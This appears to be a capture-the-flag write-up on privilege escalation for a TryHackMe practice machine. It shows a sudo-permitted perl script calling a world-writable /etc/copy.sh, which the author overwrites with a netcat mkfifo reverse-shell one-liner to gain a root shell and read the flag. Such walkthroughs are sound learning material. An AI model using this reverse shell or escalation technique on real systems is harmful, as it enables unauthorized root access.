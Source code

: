 # Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) checking for sudo -l :

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

and checking the [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) we see that it is running system (‘sh’,’/etc/copy.sh’) and checking the permission of `/etc/copy.sh` we see we can modify that so we do for a revshell ;

```
$ cd /etc/
$ ls -lah | grep copy.sh
-rw-r--rwx   1 root root     81 Nov 29 13:45 copy.sh
$ cat copy.sh	
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 5554 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

```

And we **[Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md)** to have a root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) , we can cat the root flag :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 5554
listening on [any] 5554 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 33370
/bin/sh: 0: can't access tty; job control turned off
# cd root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

Pwned !!
